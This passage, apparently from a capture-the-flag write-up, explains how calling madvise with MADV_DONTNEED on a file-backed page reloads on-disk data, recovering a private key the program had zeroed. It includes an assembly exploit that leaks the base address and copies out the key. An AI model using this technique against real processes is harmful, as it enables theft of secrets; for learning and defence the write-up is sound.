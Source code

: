 This is a lot of functions! Unfortunately, we can't `open(2)` or similar functions, so we can't directly read the flag or the private key. However, we still have a lot of random functions, some of which seem out of place.

### madvise

Ultimately, I spent a lot of time trying out different ideas. I noticed a few file descriptor leaks from the machine to our module - it never closes `/proc/self/maps`, for example. We can also cause it to open arbitrary files by requesting the IPC service load that path as a module. If the first byte of the file we open is `<0x40`, it will actually dump the corresponding number bytes to stdout as a hex-encoded signature. Unfortunately, I couldn't figure out a way to leverage either of these patterns to leak the flag.

Eventually I turnd my attention to the allowed syscalls in the seccomp profile and had a realization - what happens if you call `madvise(addr, 0x1000, MADV_DONTNEED)` on a file-backed memory region that you have written to? Remember, the program overwrite the private key inside its own file-backed data section with null bytes.

Intuitively I expected one of the following behaviors to happen:

1. The system destroys the mapping and next time you access it, you get null data
2. The system forks the vma and disassociates it from the file, possibly spilling it to a pagefile until you cause a page fault

However, what actually happens is that the system reloads that page of the file from disk, _as it was on disk_! So all we have to do is to invoke `madvise(data_page_with_private_key, 0x1000, MADV_DONTNEED)` and we can read out the private key from our own memory. Very cool trick :)

```asm=
nop

; our thrower patches this value with the `private_pem_p` we are given,
; and we will use this as a helpful scratch buffer
mov r12, 0x0807060504030201

; leak base
mov rax, [0x502120]
mov rax, [rax+0x28]
sub rax, 0x206280

; move forward to the database 
add rax, 0x206000
mov r14, rax
add r14, 0x20

; madvise the mapping
mov rdi, rax
mov rsi, 0x1000
mov rdx, 4
call madvise

; grab its length
mov rdi, r14
call strlen
mov r13, rax

; copy it into our temp buffer
mov rdi, r12
mov rsi, r14
mov rdx, r13
call memcpy

; send the ipc message to print out the value
mov rdi, 1
mov rsi, r12
mov rdx, r13
```